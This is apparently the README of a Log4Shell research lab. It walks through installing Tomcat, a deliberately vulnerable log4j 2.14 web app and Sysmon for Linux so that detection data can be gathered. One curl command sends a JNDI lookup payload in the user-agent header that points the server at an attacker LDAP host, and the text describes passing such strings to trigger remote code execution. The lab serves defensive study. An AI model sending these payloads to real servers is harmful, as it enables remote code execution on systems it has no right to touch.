

# Victim Server

There are several lab environments being shared in the Infosec community that are helping security researchers to test and learn more about `Log4Shell`.
However, most of them use docker containers to not only deploy the vulnerable application, but also containerize the execution of code.
From a Linux perspective, this does not help while using tools such as "[Sysmon for Linux](https://github.com/Sysinternals/SysmonForLinux)" since it cannot be installed in containers yet.
I wanted to put together a research lab where I could replicate a basic real scenario with a vulnerable Web application and Sysmon for Linux running.
## Basic Setup

* [Tomcat v8.5.3](https://tomcat.apache.org/)
* Vulnerable Java Application:
    * [javax.servlet-api v4.0.1](https://mvnrepository.com/artifact/javax.servlet/javax.servlet-api/4.0.1)
    * [log4j-core v2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.0)
    * [log4j-api v2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.14.0)
* [Sysmon for Linux](https://github.com/Sysinternals/SysmonForLinux)

## Set up Tomcat Server

SSH to your Linux VM and git clone this projet:

```bash
sudo su

git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
run the bash script `Install-Tomcat.sh` to install and set up a [Tomcat](https://tomcat.apache.org/) server:

```Bash
cd log4jshell-lab/victim-server/

sh Install-Tomcat.sh
```

Check if the `Tomcat` service is running properly.

```
service tomcat status
```

### Install Docker

We are going to use a Docker image to compile our vulnerable application. You can use this script to install the latest Docker app in your Linux VM.

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Docker.sh
chmod +x Install-Docker.sh

./Install-Docker.sh
```

### Compile Vulnerable Application

We need to add a vulnerable application to our Tomcat server. This project also comes with one.
We need to compile our application and create a `.war` file to host the vulnerable aplication in our Tomcat server under `/opt/tomcat/webapps`.

```bash
cd httpLoginForm/
docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

Copy new `.war` file from the `target` folder to the Tomcat `/opt/tomcat/webapps/` folder.

```bash
cp target/VulnWebApp-1.0-SNAPSHOT.war /opt/tomcat/webapps/
```

### Restart Tomcat Service

```Bash
service tomcat stop
service tomcat start
```

### Access Vulnerable Web App

The application can be accessed via your favorite browser or directly via curl commands (API style).
There are two scenarios currently being covered:
* Message Lookup
* Thread Context

**Browser**
* If your Linux VM has a GUI, you can simply browse to `http://localhost:8080/VulnWebApp-1.0-SNAPSHOT/`.
* If your Linux VM does not have a GUI and you can only use the terminal, you can SSH tunnel your access to your vulnerable application. Simply run the following commands in a new terminal.

```bash
ssh -L 8080:127.0.0.1:8080 wardog@[Public-IP-Linux-VM]
```

* You must use the `password` field to pass a `JNDI lookup` string to trigger the vulnerability.
* By default, the vulnerable application will use the `Message Lookup` method.
* If you want to choose what method to use to trigger the RCE, you just need to use the following strings in the `email` field:
    * An email address that starts with `msglookup@`
    * An email address that starts with `threadcontext@`



**API - Curl Commands**
* You can also SSH to your Tomcat server and interact with the application's basic API.
* The API exposes two methods over `GET` requests:
    * `127.0.0.1:8080/VulnWebApp-1.0-SNAPSHOT/api/msglookup`
    * `127.0.0.1:8080/VulnWebApp-1.0-SNAPSHOT/api/threadcontext`
* Both methods require you to pass the `JNDI lookup` string via the `user-agent` header of the `GET` request.

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://192.168.2.6:1389#Run}' 127.0.0.1:8080/VulnWebApp-1.0-SNAPSHOT/api/threadcontext
```

## Install Sysmon for Linux

If you want to generate some endpoint data, download the following Sysmon for Linux bash script to automate the installation and configuration of it:

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh
chmod +x Install-Sysmon-For-Linux.sh

sh Install-Sysmon-For-Linux.sh --config https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/configs/sysmon/linux/sysmon.xml
```

## Reference
* https://linuxize.com/post/how-to-install-tomcat-8-5-on-ubuntu-18-04/
* https://www.digitalocean.com/community/tutorials/install-tomcat-9-ubuntu-1804